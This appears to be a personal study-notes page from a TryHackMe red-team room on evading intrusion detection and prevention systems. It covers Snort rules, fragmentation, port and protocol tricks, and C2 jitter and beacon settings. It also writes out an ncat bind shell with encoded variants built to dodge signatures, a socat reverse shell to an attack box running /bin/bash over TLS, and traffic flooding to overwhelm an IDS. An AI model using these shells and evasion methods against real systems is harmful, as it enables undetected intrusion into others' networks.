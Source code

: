 # Evading-IPS-And-IDS
Visit the [[Intrusion-Detection-Systems]] and [[Intrusion-Prevention-Systems]] articles for more

## Definitions

Acronym | Full Name
--- | --- 
IPS | Intrusion Prevention System
IDS  |Intrusion Detection System
HIDS |  Network-based-IDS
NIDS |  Host-based-IDS

Network Traffic and Host activities is either Benign or Malicious traffic.

Method of Detection | Description
--- | ---
Signature-based | Signatures of known malicious traffic fed into IDS.
Anomaly/Behaviour-based |  Regular traffic model, for IDS to detect anomalies.
Policy-based |  Detect based on policy violations

## IDS/IPS each have rule syntax:
For example [[Snort]] uses:

Rule Header | Rule options 
--- | ---
Action		|	alert, log, pass, drop and reject
Protocol	| 	TCP, UDP, ICMP or IP
Source IP/Port  | IP/mask any # = anything but from IP/mask range
Direction of Flow |	sourceTOdestination = '->'; '<>' birectional 
Destination IP/Port |Similar to Source IP/Port
Some more specifics | `flow:established` (full three handsake stream), `content:"<TYPE>"` 

Snort rule that detects the term `ncat` in the payload of the traffic exchanged with our webserver to learn how people exploit this vulnerability would end up like:
``alert tcp any any <> any 80 (msg: "Netcat Exploitation"; flow:established,to_server; content:"POST"; nocase; http_method; content:"ncat"; nocase; sid:1000032; rev:1;)


## Evasion via protocol manipulation includes:

- Use different protocol
- Source Port
- Session Splicing
- Invalid Packets

#### Relying on a different protocol


IF TCP|UDP THEN use UDP|TCP
	ncat -ulvnp PORT_NUM # u for udp listener

IF web-browsing-allowed THEN:
	(protected-host can connect via port 80 and 443, unless local proxy is used)

	Use a Google web hosting to concelal malicious site
IF IPS blocks DNS-queries && HTTP requests THEN:
	(local machines (cannot query external DNS servers)(can query local DNS server)&& enforces HTTP communications)	
	HTTPS can tunnel traffic to evade IPS 

#### Manipulating (Source) TCP/UDP port

If you all your traffic coming from an established [[Network-Protocols]] port then the recieving end will interpret just by port number, allowing for evasion. Without deep packet inspection, the port numbers are the primary indicator of the service used, unless the security solution can analyze the data carried by the TCP segments.


#### Session Splicing

IPv4, IP packet fragmentation or session splicing - simiply breaking and or reordering packets of data up. The assumption regarding this strategies potental evasiveneess is that if traffic is in smaller packets, you will avoid matching to any of the IDS signatures. Dividing your payload among multiple packets and potential reordering them and the reordering it back to its orginal linear order will evade IDS parsing for particular stream of bytes. Unless the IDS reassembles the packets, the rule won’t be triggered.

#### Sending Invalid Packets

Sending invalid packets the response of systems is unclear, therefore experimenting to with invalid pakects an IDS/IPS might process it, while the target system might ignore it.

Refer to [[Nmap-Cheatsheet]] for experimenting with invalid packets to prove the existence of IDS/IPS.

Suppose you want to force all your packets to be fragmented into specific sizes: see [monkey](https://www.monkey.org/~dugsong/fragroute/)

#### Custom packets with Custom fields:
`hping3 --help`

## Evasion via Payload Manipulation

####  Obfuscating and encoding the payload
```bash
ncat -lvnp 1234 -e /bin/bash 	=	bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA== 	#base64
ncat -lvnp 1234 -e /bin/bash	=	ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbas		#urlencode
ncat -lvnp 1234 -e /bin/bash 	=       # escape unicode, with cyberchef

`\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
```

#### Encrypting the communication channel
Create Privacy Enhanced Mail(PEM), see [[Socat-Cheatsheet]]
```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

#   req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
#   -x509 specifies that we want an X.509 certificate
#   -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
#   -days 365 shows that the validity of our certificate will be one year
#   -subj sets data, such as organization and country, via the command-line.
#   -nodes simplifies our command and does not encrypt the private key
#   -keyout PRIVATE_KEY specifies the filename where we want to save our private key
#   -out CERTIFICATE specifies the filename to which we want to write the certificate request


cat reverse.key reverse.crt > reverse.pem

# listener that return execution output
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#    -d -d provides some debugging data (fatal, error, warning, and notice messages)
#    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
#    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
#    verify=0 disables checking peer’s certificate
#    fork creates a sub-process to handle each new connection.

# socat:	
# On Attack box:
socat -d -d TCP-LISTEN:4443,fork STDOUT
# On target machine:
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

#### Modifying the shellcode

## Route Manipulation

For route manipulation see [[Proxies]] and [[Port-Redirection-And-Tunneling]]

With examples from the THM Room use: [[Nmap-Cheatsheet]]

Relying on source routing with `--ip-options "L $IP $IP $IP"` would specify loose routing - scan through any in the array, whereas strict routing with `"S"` as the 0th index of the string would strict hop from first `$IP` to the last. Using proxy servers with `--proxies proto://host:port, proto://host:port`, valid protocols are HTTP and SOCKS4 - authenication is not supported.


## Evasion via Tactical DoS

IDS/IPS requires a high processing power to managing and regulate rules grows and tthe network traffic volume increase, and with spefically IDS logging of said traffic and matching of rule signatures.
1. Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
1. Create a massive amount of not-malicious traffic that would still make it to the logs, congesting the communication channel with the logging server or exceed its disk writing capacity.

## C2 Evasive Tactices
See [[Introduction-To-Comand-And-Control-Frameworks]] for more information:

1. User Agent - Innocuous configuration rather than default
2. Sleep time - control callback interval between beacon checkins
3. Jitter - Pseudo-Randomness of sleep time THM:*"A jitter of 30% results in a sleep time of ±30% to further evade detection."*
4. SSL Certificate - Authenicity equals success
5. DNS Beacon - If exfiltrating data via DNS - configure DNS server and the hostname in the DNS query

[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)


## Next-Gen Security

Next-Generation Network IPS (NGNIPS) has the following five characteristics according to [Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):

1.  Standard first-generation IPS capabilities: A next-generation network IPS should achieve what a traditional network IPS can do.
2.  Application awareness and full-stack visibility: Identify traffic from various applications and enforce the network security policy. An NGNIPS must be able to understand up to the application layer.
3.  Context-awareness: Use information from sources outside of the IPS to aid in blocking decisions.
4.  Content awareness: Able to inspect and classify files, such as executable programs and documents, in inbound and outbound traffic.
5.  Agile engine: Support upgrade paths to benefit from new information feeds.


## References
[THM Network Evasion Room](https://tryhackme.com/room/redteamnetsec)
[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)
[monkey](https://www.monkey.org/~dugsong/fragroute/)
[Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):